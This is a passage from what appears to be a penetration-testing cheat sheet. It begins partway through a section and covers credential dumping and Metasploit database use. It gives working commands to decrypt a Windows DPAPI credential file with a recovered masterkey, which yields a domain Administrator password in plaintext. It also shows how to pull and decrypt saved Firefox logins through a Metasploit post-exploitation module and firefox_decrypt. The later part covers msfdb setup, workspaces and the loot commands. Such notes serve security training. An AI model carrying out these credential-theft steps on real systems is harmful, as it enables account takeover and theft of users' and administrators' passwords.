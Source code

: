 - this will output our masterkey value and should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- `cred /in:C:\users\user\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey:60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We will get the dc password in plaintext it should look like this:

```bash
UserName       : domain\Administrator
CredentialBlob : Password123!
```

## Dumping firefox credentials

- With an active shell session on metasploit
- `use post/multi/gather/firefox_creds`
- set SESSION to the ID of your active shell session
- `exploit`
- the files will be downloaded in the loot directory, it will be shown where to in the command line
- rename every file by checking their original name accordingly to: `key4.db`, `logins.json`, `cookies.sqlite`, `cert9.db`, `signons.sqlite`
- Download [firefox decrypt](https://github.com/unode/firefox_decrypt)
- And run it `python3 firefox_decrypt.py <msf loot directory>`
- You should see the decrypted credentials on the screen

## Databases

Databases in msfconsole are used to keep track of our results.

### Set up

- `sudo service postgresql status` check is PostgreSQL is up and running
- If not `sudo systemctl start postgresql`
- `sudo msfdb init` initiate a Database
- `sudo msfdb status` check if a db has been initiated
- `sudo msfdb run` connect to the db
- In case of problem we can reinitiate the database

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
```

### Workspaces

Can be usse to segregate the different scan results, hosts, infos, loot, etc.  

- `workspace` show the current workspace
- `workspace -a workspace-name` add a workspace
- `workspace -d workspace-name` delete a workspace
- `workspace workspace-name` to switch to a workspace
- `workspace -h` for help
- `db_import file` to import files in our database workspace
- `db_export -f xml file.xml` we can specify a format with -f. For help we can run `db_export -h`
- `hosts -h` will show help on the hosts command that we can use to see stored info in the db about the hosts.
- `services -h` same as host but for services
- `creds -h` same but for stored credentials
- `loot -h` The loot command works in conjunction with the command above to offer you an at-a-glance list of owned services and users. The loot, in this case, refers to hash dumps from different system types, namely hashes, passwd, shadow, and more.
